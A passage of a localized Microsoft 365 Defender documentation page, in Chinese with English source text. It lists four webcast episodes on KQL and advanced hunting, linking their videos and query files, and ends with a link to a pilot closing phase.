|<span data-ttu-id="1e413-372">職稱</span><span class="sxs-lookup"><span data-stu-id="1e413-372">Title</span></span>|<span data-ttu-id="1e413-373">說明</span><span class="sxs-lookup"><span data-stu-id="1e413-373">Description</span></span>|<span data-ttu-id="1e413-374">下載 MP4</span><span class="sxs-lookup"><span data-stu-id="1e413-374">Download MP4</span></span>|<span data-ttu-id="1e413-375">在 YouTube 上觀看</span><span class="sxs-lookup"><span data-stu-id="1e413-375">Watch on YouTube</span></span>|<span data-ttu-id="1e413-376">使用的 CSL 檔案</span><span class="sxs-lookup"><span data-stu-id="1e413-376">CSL file to use</span></span>|
|---|---|---|---|---|
|<span data-ttu-id="1e413-377">第 1 集：KQL 基礎</span><span class="sxs-lookup"><span data-stu-id="1e413-377">Episode 1: KQL fundamentals</span></span>|<span data-ttu-id="1e413-378">我們將涵蓋 Microsoft 365 Defender 中進位搜尋功能的一些基礎功能。</span><span class="sxs-lookup"><span data-stu-id="1e413-378">We'll cover the basics of advanced hunting capabilities in Microsoft 365 Defender.</span></span> <span data-ttu-id="1e413-379">瞭解可用的進位搜尋資料和基本 KQL 語法及運算子。</span><span class="sxs-lookup"><span data-stu-id="1e413-379">Learn about available advanced hunting data and basic KQL syntax and operators.</span></span>|[<span data-ttu-id="1e413-380">MP4</span><span class="sxs-lookup"><span data-stu-id="1e413-380">MP4</span></span>](https://aka.ms/MTP15JUL20_MP4)|[<span data-ttu-id="1e413-381">Youtube</span><span class="sxs-lookup"><span data-stu-id="1e413-381">YouTube</span></span>](https://youtu.be/0D9TkGjeJwM)|[<span data-ttu-id="1e413-382">第 1 集：Git 中的 CSL 檔案</span><span class="sxs-lookup"><span data-stu-id="1e413-382">Episode 1: CSL file in Git</span></span>](https://github.com/microsoft/Microsoft-threat-protection-Hunting-Queries/blob/master/Webcasts/TrackingTheAdversary/Episode%201%20-%20KQL%20Fundamentals.csl)|
|<span data-ttu-id="1e413-383">第 2 集：加入</span><span class="sxs-lookup"><span data-stu-id="1e413-383">Episode 2: Joins</span></span>|<span data-ttu-id="1e413-384">我們會繼續學習進入搜尋的資料，以及如何將表格連接在一起。</span><span class="sxs-lookup"><span data-stu-id="1e413-384">We'll continue learning about data in advanced hunting and how to join tables together.</span></span> <span data-ttu-id="1e413-385">瞭解內部、外部、唯一和半聯聯，以及預設 Kusto innerunique 聯聯的細微之處。</span><span class="sxs-lookup"><span data-stu-id="1e413-385">Learn about inner, outer, unique, and semi joins, and the nuances of the default Kusto innerunique join.</span></span>|[<span data-ttu-id="1e413-386">MP4</span><span class="sxs-lookup"><span data-stu-id="1e413-386">MP4</span></span>](https://aka.ms/MTP22JUL20_MP4)|[<span data-ttu-id="1e413-387">Youtube</span><span class="sxs-lookup"><span data-stu-id="1e413-387">YouTube</span></span>](https://youtu.be/LMrO6K5TWOU)|[<span data-ttu-id="1e413-388">第 2 集：Git 中的 CSL 檔案</span><span class="sxs-lookup"><span data-stu-id="1e413-388">Episode 2: CSL file in Git</span></span>](https://github.com/microsoft/Microsoft-threat-protection-Hunting-Queries/blob/master/Webcasts/TrackingTheAdversary/Episode%202%20-%20Joins.csl)|
|<span data-ttu-id="1e413-389">第 3 集：摘要、樞紐分析及視覺化資料</span><span class="sxs-lookup"><span data-stu-id="1e413-389">Episode 3: Summarizing, pivoting, and visualizing data</span></span>|<span data-ttu-id="1e413-390">現在，我們能夠篩選、操作及連接資料，是時候開始進行摘要、量化、樞紐分析及視覺化了。</span><span class="sxs-lookup"><span data-stu-id="1e413-390">Now that we're able to filter, manipulate, and join data, it's time to start summarizing, quantifying, pivoting, and visualizing.</span></span> <span data-ttu-id="1e413-391">在此集中，我們會涵蓋摘要運算子和一些您可以在進一步搜尋架構的其他資料表時執行的計算。</span><span class="sxs-lookup"><span data-stu-id="1e413-391">In this episode, we'll cover the summarize operator and some of the calculations you can perform while diving into additional tables in the advanced hunting schema.</span></span> <span data-ttu-id="1e413-392">我們將資料集轉換成圖表，協助改善分析。</span><span class="sxs-lookup"><span data-stu-id="1e413-392">We turn our datasets into charts that can help improve analysis.</span></span>|[<span data-ttu-id="1e413-393">MP4</span><span class="sxs-lookup"><span data-stu-id="1e413-393">MP4</span></span>](https://aka.ms/MTP29JUL20_MP4)|[<span data-ttu-id="1e413-394">Youtube</span><span class="sxs-lookup"><span data-stu-id="1e413-394">YouTube</span></span>](https://youtu.be/UKnk9U1NH6Y)|[<span data-ttu-id="1e413-395">第 3 集：Git 中的 CSL 檔案</span><span class="sxs-lookup"><span data-stu-id="1e413-395">Episode 3: CSL file in Git</span></span>](https://github.com/microsoft/Microsoft-threat-protection-Hunting-Queries/blob/master/Webcasts/TrackingTheAdversary/Episode%203%20-%20Summarizing%2C%20Pivoting%2C%20and%20Joining.csl)|
|<span data-ttu-id="1e413-396">第 4 集：讓我們來搜尋吧！</span><span class="sxs-lookup"><span data-stu-id="1e413-396">Episode 4: Let's hunt!</span></span> <span data-ttu-id="1e413-397">將 KQL 應用至事件追蹤</span><span class="sxs-lookup"><span data-stu-id="1e413-397">Applying KQL to incident tracking</span></span>|<span data-ttu-id="1e413-398">該追蹤一些攻擊者的活動了！</span><span class="sxs-lookup"><span data-stu-id="1e413-398">Time to track some attacker activity!</span></span> <span data-ttu-id="1e413-399">在這段集中，我們將使用 Microsoft 365 Defender 中進一步瞭解 KQL 和進一步搜尋來追蹤攻擊。</span><span class="sxs-lookup"><span data-stu-id="1e413-399">In this episode, we'll use our improved understanding of KQL and advanced hunting in Microsoft 365 Defender to track an attack.</span></span> <span data-ttu-id="1e413-400">瞭解在欄位中用來追蹤攻擊者活動的一些秘訣和訣竅，包括網路安全性的 ABC，以及如何將它們套用至事件回應。</span><span class="sxs-lookup"><span data-stu-id="1e413-400">Learn some of the tips and tricks used in the field to track attacker activity, including the ABCs of cybersecurity and how to apply them to incident response.</span></span>|[<span data-ttu-id="1e413-401">MP4</span><span class="sxs-lookup"><span data-stu-id="1e413-401">MP4</span></span>](https://aka.ms/MTP5AUG20_MP4)|[<span data-ttu-id="1e413-402">Youtube</span><span class="sxs-lookup"><span data-stu-id="1e413-402">YouTube</span></span>](https://youtu.be/2EUxOc_LNd8)|[<span data-ttu-id="1e413-403">第 4 集：Git 中的 CSL 檔案</span><span class="sxs-lookup"><span data-stu-id="1e413-403">Episode 4: CSL file in Git</span></span>](https://github.com/microsoft/Microsoft-threat-protection-Hunting-Queries/blob/master/Webcasts/TrackingTheAdversary/Episode%204%20-%20Lets%20Hunt.csl)|
|

## <a name="next-step"></a><span data-ttu-id="1e413-404">下一步</span><span class="sxs-lookup"><span data-stu-id="1e413-404">Next step</span></span>

|<span data-ttu-id="1e413-405"></span><span class="sxs-lookup"><span data-stu-id="1e413-405"></span></span> <br>[<span data-ttu-id="1e413-406">結案和摘要階段</span><span class="sxs-lookup"><span data-stu-id="1e413-406">Closing and summary phase</span></span>](mtp-pilot-close.md)|<span data-ttu-id="1e413-407">分析您的 Microsoft 365 Defender 試驗結果，向專案關係人呈現，然後進行下一個步驟。</span><span class="sxs-lookup"><span data-stu-id="1e413-407">Analyze your Microsoft 365 Defender pilot outcome, present them to your stakeholders, and take the next step.</span></span>
|:-----|:-----|
